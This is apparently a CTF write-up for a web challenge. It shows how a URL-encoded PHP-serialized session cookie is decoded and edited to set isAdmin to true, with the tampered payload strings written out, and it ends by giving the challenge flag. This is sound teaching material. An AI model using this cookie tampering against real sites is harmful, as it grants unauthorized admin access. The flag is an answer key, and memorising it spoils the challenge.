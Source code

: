 # Challenge Name: flatten


![date](https://img.shields.io/badge/date-26.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-200-blue.svg)  


## Description

## Detailed solution

We have a page with a logged user "guest". We have a cookie with username and isAdmin

```
Cookie: user=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22guest%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3B%7D
```
The cookie is url encoded. let's decode it 

```
O:4:"User":2:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:0;}
```
It's a generated data via php serialize. You can read more here https://www.php.net/manual/en/function.serialize.php

We can use unserialize() to check our object format and classes

```php
<?php
$cookie = 'O:4:"User":2:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:0;}';
$test = unserialize($cookie);
var_dump($test);
?>
```
```
object(__PHP_Incomplete_Class)#1 (3) { ["__PHP_Incomplete_Class_Name"]=> string(4) "User" ["username"]=> string(5) "guest" ["isAdmin"]=> bool(false) }
```
We have two class used for session, username and isAdmin. We can try for example to change username to admin adn isAdmin to 1 and see the results

```
O:4:"User":2:{s:8:"username";s:5:"admin";s:7:"isAdmin";b:1;}
```
```
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
```

Now let's change the cookie via devtools

![image](https://user-images.githubusercontent.com/72421091/221647034-c5e8d89d-b8f8-4c09-9c04-ae3e96f39eae.png)

![image](https://user-images.githubusercontent.com/72421091/221647373-8bbf9af8-5955-47ff-b3d4-9a783e60a2a7.png)

We got our flag via an alert

You can check more about PHP Insecure Deserialization https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md

## Flag

```
IDEH{DE5ErIalIsA710n_Dy41_lAh_Ih53N_13waN} 
```

